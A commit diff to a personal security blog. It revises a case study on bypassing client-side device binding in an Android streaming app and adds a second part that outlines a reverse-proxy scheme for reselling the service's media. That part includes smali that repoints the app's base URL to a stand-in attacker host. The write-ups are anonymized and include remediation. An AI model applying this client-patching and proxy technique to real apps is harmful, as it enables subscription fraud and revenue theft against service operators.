

Before and after one commit to Shawns0826/Projects, a Jekyll site: the page built from index.md, in a window 1280 px wide and 900 px high, scrolled down 498 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Add MITM series part 2 and link from session bypass case study
Publish the reverse-proxy MITM demonstration as part 2 of the mitm-exploit series. Update part 1 copy and add cross-links where low-severity session bypass escalates to critical impact.

Co-authored-by: Cursor <cursoragent@cursor.com>

````diff
--- a/_case_studies/authentication-bypass-client-side-device-binding.md
+++ b/_case_studies/authentication-bypass-client-side-device-binding.md
@@ -1,32 +1,26 @@
 ---
 layout: case_study
-title: "Concurrent Session Restriction Bypass via Improper Client-Side Device Binding"
+title: "Single Session Enforcement Bypass: A Case Study On Client-Side Enforcement"
 description: "Case study on trusting client-supplied device identity for concurrent session enforcement—and how that breaks under reverse engineering."
 tags:
-  - security
-  - authentication
-  - case-study
-  - owasp
+  - Reverse Engineering
+  - Application Security
+  - Android Security
+  - Traffic Interception
 date: 2026-05-07
 featured: true
 series: mitm-exploit
 series_order: 1
 ---
 
-**Case study in broken trust of client-side security controls**
+**Case study in trust of client-side security controls**
 
-**Role:** *(your role — e.g. Security researcher / Red team / AppSec engineer)*
-**Context:** *(product type, environment — lab / coordinated disclosure / internal assessment)*
-**Timeline:** *(Month Year — Month Year)*
-**Severity:** *(e.g. Medium–High — concurrent entitlement abuse: policy intended one active session/seat; multiple sessions remained valid in parallel)*
 
-<!-- Optional hero when you add artwork under ./images/
-![Threat model or flow](./images/attack-flow.png)
--->
+
 
 ## Executive summary
 
-The business incentive for concurrent session restriction is obvious. Streaming services, SaaS platforms, gaming subscriptions, VPN vendors,cruise line wifi packages, ect, rely on selling subscriptions for revenue. Sharing subscriptions with others who have not paid for the service is an attack on the business model of the service itself. This is why various methods are implemented to try and prevent concurrent sessions(IP geofencing, rate limiting, account level tracking, ect). This case study dives into a concurrent session restriction vulnerability that was found during an audit. The case study will go over how the vulnerability was discovered, impact, and remediation. All data has been anonymized.
+The business incentive for account-sharing prevention is obvious. Streaming services, SaaS platforms, gaming subscriptions, VPN vendors,cruise line wifi packages, etc, rely on selling subscriptions for revenue. Sharing subscriptions with others who have not paid for the service is an attack on the business model of the service itself. This is why various methods are implemented to try and prevent concurrent sessions(IP geofencing, rate limiting, account level tracking, etc). This case study dives into a session enforcement vulnerability that was found during an audit. The case study will go over how the vulnerability was discovered, impact, and remediation. All data has been anonymized.
 
 
 ## Application Context
@@ -34,13 +28,13 @@ The business incentive for concurrent session restriction is obvious. Streaming
 The application in question is an android TV/Mobile app(APK) that distributes digital media for an annual subscription. After a user has been authenticated and provided a JWT, a client provided deviceid is then sent to the server and stored to a database. If another person attempts to log in with the same account but through a different device, the server compares the deviceid's and kicks the first user out of their session. The intended goal here is to enforce one session at a time. This is to discourage account sharing. The application did not implement any type of enforcement via IP geofencing or rate limiting. Hence, this mechanism of checking the deviceid was the only intel the server had for enforcing 1 concurrent session.
 
 ## Vulnerability Overview
-The flaw with this design is trusting client provided information. In application security, it is good practice to always treat client provided parameters as malicious or modified. This is due to how easy it is for an attacker to malipulate the client parameters via reverse engineering and/or intercepting and manipulating https traffic via a tool like burp. The deviceid provided by the client can easily be modified, allowing a user to spoof it and share their account with multiple people, bypassing concurrent session restriction.
+The flaw with this design is trusting client provided information. In application security, it is good practice to always treat client provided parameters as malicious or modified. This is due to how easy it is for an attacker to manipulate the client parameters via reverse engineering and/or intercepting and manipulating https traffic via a tool like burp. The deviceid provided by the client can easily be modified, allowing a user to spoof it and share their account with multiple people, bypassing session enforcement.
 
 
 ## Technical Analysis and exploitation
 The tools needed for this exploitation are a rooted android emulator with burp, apktools for disassembling the APK into smali and rebuilding it, and optionally JADX for decompiling the APK into readable Java code.
 
-To begin with, the application has root detection.This needs to be bypassed so that we can run the application on our rooted device withburp to monitor and manipulate network traffic. Because the application does not use Google Play Integrity attestation, we can simply utilize reverse engineering to bypass this.  After disassembling the apk into editable smali using apktools, we can grep through the code base and look for where root detection is enforced and bypass it. We find this sole method responsible for root detection.
+To begin with, the application has root detection. This needs to be bypassed so that we can run the application on our rooted device with burp/mitmproxy to monitor and manipulate network traffic. Because the application does not use Google Play Integrity attestation, we can simply utilize reverse engineering to bypass this.  After disassembling the apk into editable smali using apktools, we can grep through the code base and look for where root detection is enforced and bypass it. We find this sole method responsible for root detection.
 
 ```smali
 .method public static isDeviceRooted()Z
@@ -108,7 +102,7 @@ Now the method can simply be rewritten as:
 
 Now that this simple root detection has been bypassed,it is now time to sign and install the cracked client into our rooted device and we are ready to begin exploitation.
 
-(It is important to note that there are various ways to make root detection bypass much more difficult which can slow down an attacker such as using play integrity attestation, native code, server side anomoly scoring ect. Even then, anything ran on a attacker controlled device can eventually be hooked or bypassed. This is why in Application security, it is good practice to always assume the client is compromised.)
+(It is important to note that there are various ways to make root detection bypass much more difficult which can slow down an attacker such as using play integrity attestation, native code, server side anomaly scoring etc. Even then, anything ran on a attacker controlled device can eventually be hooked or bypassed. This is why in Application security, it is good practice to always assume the client is compromised.)
 
 Exact parameter values have been anonymized.
 
@@ -124,7 +118,7 @@ The important part of the JSON payload to pay attention to is the deviceId field
 {"message":"User assigned to another device. Are you sure you want to unlink the device? You will need to sign in again."}
 ```
 
-If the user clicks OK, the previuous users session is ended and our current user can now start their session. Their deviceiD now replaces the previous deviceId in the database.
+If the user clicks OK, the previous users session is ended and our current user can now start their session. Their deviceiD now replaces the previous deviceId in the database.
 
 
 Now lets grep through the client and see which method is responsible for returning the deviceId. We find this smali method:
@@ -227,14 +221,14 @@ and after building and signing, their new patched client now returns the same ha
 
 
 ## Business Impact
-What was achieved here and why would this matter to the victim? Now, this patched client can be distributed to others, and each device using this patched client will send the same deviceId to the server. Concurrent session restriction has comepletely been bypassed now that the server has no way of telling one device from another. This leads to a direct attack on the business model of the victum as they rely on subscriptions in order to operate. If this method were to leak online, multiple people could take advantage of this bypass leading to significant revenue loss for the victim company.
+What was achieved here and why would this matter to the victim? Now, this patched client can be distributed to others, and each device using this patched client will send the same deviceId to the server. Concurrent session restriction has comepletely been bypassed now that the server has no way of telling one device from another. This leads to a direct attack on the business model of the victim as they rely on subscriptions in order to operate. If this method were to leak online, multiple people could take advantage of this bypass leading to significant revenue loss for the victim company.
 
-Most bug bounty programs and audits would consider this a low impact vulnerability. Some companies even consider this an acceptable side affect due to relying on only client side session enforcement. However, a skilled attacker can chain this vulnerability with other technologies to scale the exploitation by directly siphoning revenue from the company themselves, turning this otherwise low to medium impact vulnerability into high impact fast.
+Most bug bounty programs and audits would consider this a low impact vulnerability. Some companies even consider this an acceptable side affect due to relying on only client side session enforcement. However, a skilled attacker can chain this vulnerability with other technologies to scale the exploitation by directly siphoning revenue from the company themselves, turning this otherwise low impact vulnerability into high impact fast. See [Reverse Proxy MITM: Escalating Weak Session Enforcement to Critical]({% link _case_studies/reverse-proxy-mitm-demonstration.md %}).
 
 ## Remediation
 
 
- A potential solution to this is implementing google play attestation. This would make using patched/modified clients impossible and thus, users would be forced to use a sincere client when sending request to the server. However it is important to note that while attestation helps, this is not a full proof solution. An advanced attacker can still set up a proxy inbetween the real client, manipulating payloads in real time(such as sending a static deviceId). If multiple people are ralying through the same proxy, again they can trick the server into thinking that they are all one device.
+ A potential solution to this is implementing google play attestation. This would make using patched/modified clients impossible and thus, users would be forced to use a sincere client when sending request to the server. However it is important to note that while attestation helps, this is not a fullproof solution. An advanced attacker can still set up a proxy inbetween the real client, manipulating payloads in real time(such as sending a static deviceId). If multiple people are ralying through the same proxy, again they can trick the server into thinking that they are all one device.
 
 A more full proof solution to this is playback/session entitlement monitoring enforced server-side. Enforcing session not just during log in but also when media is consumed itself. The backend should always be the final authority and validate every time it issues playback manifest, stream tokens, or media licenses. This active server side monitoring can check if for example, the same user is trying to watch 2 different videos at the same time.
 
@@ -242,4 +236,4 @@ A more full proof solution to this is playback/session entitlement monitoring en
 
 ## Conclusion
 
-This case study shows the flaw of relying on client provided information. The server should always have the final say when it comes to enforcement. Proper concurrent session restriction is an ongoing issue that many industries are constantly trying to solve as exploiters are proactively comming up with better methods of bypassing them. Even though some companies accept the consequences that come with client side session enforcement, if not paired with some type of server side session monitoring, a skilled attacker can scale this vulnerability up fast to a high severity one.
+This case study shows the flaw of relying on client provided information. The server should always have the final say when it comes to enforcement. Proper concurrent session restriction is an ongoing issue that many industries are constantly trying to solve as exploiters are proactively coming up with better methods of bypassing them. Even though some companies accept the consequences that come with client side session enforcement, if not paired with some type of server side session monitoring, a skilled attacker can scale this vulnerability up to a high severity one. See [Reverse Proxy MITM: Escalating Weak Session Enforcement to Critical]({% link _case_studies/reverse-proxy-mitm-demonstration.md %}).
--- /dev/null
+++ b/_case_studies/reverse-proxy-mitm-demonstration.md
@@ -0,0 +1,58 @@
+---
+title: "Reverse Proxy MITM: Escalating Weak Session Enforcement to Critical"
+description: "How a reverse-engineered client plus a reverse proxy can turn low-severity session bypass into unauthorized monetization of upstream media—distinct from classic phishing MITM."
+tags:
+  - Reverse Engineering
+  - Application Security
+  - Android Security
+  - Traffic Interception
+date: 2026-05-10
+series: mitm-exploit
+series_order: 2
+---
+
+It is common in the industry that the ability to bypass client-side session enforcement is ranked low severity. In this paper, we will demonstrate how a capable attacker can take this otherwise low-severity vulnerability and escalate it to a critical one through reverse engineering and proxying.
+
+This project is a demonstration of a unique exploit where a malicious actor can siphon revenue from a victim company. In this example, our target is a digital media Android TV/mobile app (APK). Although similar, this attack is not to be confused with phishing, in which an attacker sets up a MITM (man-in-the-middle) proxy through a similar-looking domain (changing `outlook.com/login` to `outlook.co/login`) and waits for users to land on their fake website, authenticates, then finally steals their session. In this attack, a MITM proxy is also used, but instead of stealing sessions, the goal is to use a reverse proxy to transparently broker access to the victim service itself.
+
+Everything present in the demonstration has been anonymized.
+
+The proxy presents itself as a standalone service that independently handles registration, authentication, and session management while secretly relaying upstream requests to the upstream target application when specific content is requested. In this attack, the legitimate platform becomes an invisible backend content provider for the attacker rather than the primary user-facing service. This enables unauthorized monetization of proxied access to the upstream platform.
+
+![High-level view of the reverse-proxy broker model]({{ "/assets/images/mitm-reverse-proxy-overview.png" | relative_url }})
+
+Although rare, this specific attack has been known to happen.
+
+Any app that has weak concurrent session restrictions and no attestation enforcement is susceptible to this attack. This specific demonstration builds off the [previous case study]({% link _case_studies/authentication-bypass-client-side-device-binding.md %}), in which we did a case study on a weak concurrent session restriction found during an audit. Now that we can have one session being used by multiple people, let’s see exactly how a capable attacker can implement this attack.
+
+Through reverse engineering, an attacker has full control over the client. We assume they would disassemble the app using Apktool and grep for `url`. The following method would be discovered.
+
+```smali
+.method public getDefaultBaseUrl()Ljava/lang/String;
+    .locals 1
+
+    const-string v0, "https://original-server-url.com/"
+
+    return-object v0
+.end method
+```
+
+Again, because the attacker has full control of the client, it is safe to assume an attacker can modify the client such that they change the server URL that the client normally sends requests to, to their own server like this.
+
+```smali
+.method public getDefaultBaseUrl()Ljava/lang/String;
+    .locals 1
+
+    const-string v0, "https://attacker-url.com/"
+
+    return-object v0
+.end method
+```
+
+The attacker would build and sign the app. Now they have the same client as the original app; the only difference is that HTTP(S) requests will now be sent to an attacker-controlled proxy server instead of the original service.
+
+Nothing else about the client needs to change—in fact it is more convenient for the attacker to leave the client as is. Now they would map every endpoint the client requests, and ensure they intercept any that involve authorization or authentication. The attacker would set up their own custom logic for dealing with authorization or authentication. This involves validating usernames and passwords, assigning session tokens, registering accounts, and so on. Anything else, such as fetching media, is upstreamed to the victim server and then returned to the user. This lets the attacker monetize access to the victim’s resources.
+
+![Request flow: attacker-facing auth vs upstreamed content]({{ "/assets/images/mitm-reverse-proxy-flow.png" | relative_url }})
+
+A low-severity vulnerability has successfully been escalated to critical. The attacker has successfully monetized another application’s resources, and neither their users nor the legitimate service is aware of what is truly going on behind (or in-between) the scenes. This can lead to disastrous consequences over time if the legitimate service is not quick to take action.
````
